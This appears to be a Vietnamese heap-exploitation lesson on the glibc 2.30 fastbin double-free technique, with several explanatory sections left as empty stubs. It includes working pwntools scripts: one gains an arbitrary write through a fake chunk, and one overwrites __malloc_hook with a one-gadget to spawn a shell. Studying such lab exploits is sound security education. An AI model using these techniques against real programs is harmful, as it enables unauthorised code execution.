







# Second Lesson: `Fastbin-dup`
>Glibc ver: 2.30
Trong bài viết này, mình sẽ giải thích những vấn đề bao gồm:

- Cách hoạt động của fastbins

- Fastbins(2.30) check những gì?

- Bug ở đâu?

- Làm sao để ta chuyển bug đó thành 1 primitive arbitary write?

- Nếu như chúng ta đã có 1 primitive mạnh, ta nên ghi đè giá trị quan trọng nào để `drop the shell`?

### Cách hoạt động của fastbins

#### I. Fastbins là gì

- Fastbins là 1 bins 

#### II. Behavior bình thường của fastbin
- Trước hết, ta sẽ xem cách chương trình này hoạt động 1 cách bình thường:

- Khi free, ta có thể thấy, 1 phần user-data của những chunk free được reuse để làm pointer của fastbins theo nguyên tắc LIFO:

- Và vì đây là 1 pointer, ta có thể khai thác bằng cách ghi đè pointer bằng 1 địa chỉ mà ta muốn kiểm soát, từ đó, sử dụng cơ chế single-list của fastbins để thay đổi luồng của chương trình
### Fastbins(2.30-no-tcache) check những gì và bài này đã lợi dụng việc fastbins không check gì?
- I/O cơ bản của chương trình:

chương trình sẽ yêu cầu bạn nhập username và requested chunk size, size bạn nhập vào được chương trình malloc và chương trình sử dụng size này để chứa cả user-data và metadata.

Lần này, ta thử lại primitive top chunk corruption, nhưng lần này, chương trình đã check số lượng ký tự ta nhập vào:

- Mặc dù chương trình có vài biểu hiện kỳ lạ, song, khi debug, ta có thể thấy top_chunk không hề bị ghi đè.

- Bỏ qua việc thử bừa, ta sẽ xem rằng fastbins thực sự đã check gì, và bỏ qua việc check gì:
- Fastbins đã check:

- Fastbins đã không check:

### Bug Class - Double-free
- Chính vì vậy, khi ta `free(chunk_A)` rồi `free(chunk_B)`, ta vẫn có thể `free(chunk_A)` thêm 1 lần nữa.


### Primitive Discovery
- Trước hết, ta sẽ chứng minh rằng lỗi double-free này có thể được chuyển thành 1 primitive mạnh, ở đây, là chuyển thành arbitary write primitive. Vậy nên, ta sẽ tìm cách ghi đè giá trị target 
- Đầu tiên, ta sẽ `malloc` 2 chunk,  sau đó trigger lỗi double free:
```
chunk_A = malloc(0x20, b"huhu")
chunk_B = malloc(0x20, b"hehe")

free(chunk_A)
free(chunk_B)
free(chunk_A)
```
khi đó, fastbins list sẽ:
`0x20: 0x603000 -> 0x603020 <- 0x603000` 



Vậy nếu lần này ta `malloc` 1 lần nữa, ta sẽ sử dụng chunk có metadata tại `0x603000` và sử dụng meta-data + 0x10 làm user-data, tuy nhiên, là vì chunk tại `0x603000` vẫn có ở trong fastbins nên user-data ta ghi vào sẽ được dùng làm con trỏ.



- Script test chứng minh primitive(arbitary write):
```
# =============================================================================

# The second qword of the "username" field will act as a fake chunk size field.
# Set it to 0x21, the size of the chunk being duplicated in this solution.
username = p64(0) + p64(0x21)
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")

# Request two chunks with size 0x20, the same as the fake size field in "username".
# The "dup" chunk will be duplicated, the "safety" chunk is used to bypass the fastbins double-free mitigation.
dup = malloc(0x18, b"A"*8)
safety = malloc(0x18, b"B"*8)

# Use the double-free bug to free the "dup" chunk, then the "safety" chunk, then the "dup" chunk again.
# This way the "dup" chunk is not at the head of the 0x20 fastbin when it is freed for the second time,
# bypassing the fastbins double-free mitigation.
free(dup)
free(safety)
free(dup)

# The next request for a 0x20-sized chunk will be serviced by the "dup" chunk.
# Request it, then overwrite its fastbin fd, pointing it to the fake chunk in "username".
malloc(0x18, p64(elf.sym.user))

# Make two more requests for 0x20-sized chunks. The "safety" chunk, then the "dup" chunk are allocated to
# service these requests.
malloc(0x18, b"C"*8)
malloc(0x18, b"D"*8)

# The next request for a 0x20-sized chunk is serviced by the fake chunk in "username".
# The first qword of its user data overlaps the target data.
malloc(0x18, b"Much win")

# =============================================================================
```
### Exploitation


- Payload cuối chứng minh payload:
```
# =============================================================================

# Ignore the "username" field.
username = b"George"
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")

# Request two 0x70-sized chunks.
# The most-significant byte of the _IO_wide_data_0 vtable pointer (0x7f) is used later as a size field.
# The "dup" chunk will be duplicated, the "safety" chunk is used to bypass the fastbins double-free mitigation.
dup = malloc(0x68, b"A"*8)
safety = malloc(0x68, b"B"*8)

# Leverage the double-free bug to free the "dup" chunk, then the "safety" chunk, then the "dup" chunk again.
# This way the "dup" chunk is not at the head of the 0x70 fastbin when it is freed for the second time,
# bypassing the fastbins double-free mitigation.
free(dup)
free(safety)
free(dup)

# The next request for a 0x70-sized chunk will be serviced by the "dup" chunk.
# Request it, then overwrite its fastbin fd, pointing it to the fake chunk overlapping the malloc hook,
# specifically where the 0x7f byte of the _IO_wide_data_0 vtable pointer will form the least-significant byte of the size field.
malloc(0x68, p64(libc.sym.__malloc_hook - 0x23))

# Make two more requests for 0x70-sized chunks. The "safety" chunk, then the "dup" chunk are allocated to service these requests.
malloc(0x68, b"C"*8)
malloc(0x68, b"D"*8)

# The next request for a 0x70-sized chunk is serviced by the fake chunk overlapping the malloc hook.
# Use it to overwrite the malloc hook with the address of a one-gadget.
malloc(0x68, b"X"*0x13 + p64(libc.address + 0xe1fa1)) # [rsp+0x50] == NULL

# The next call to malloc() will instead call the one-gadget and drop a shell.
# The argument to malloc() is irrelevant, as long as it passes the program's size check.
malloc(0x18, b"")

# =============================================================================
```

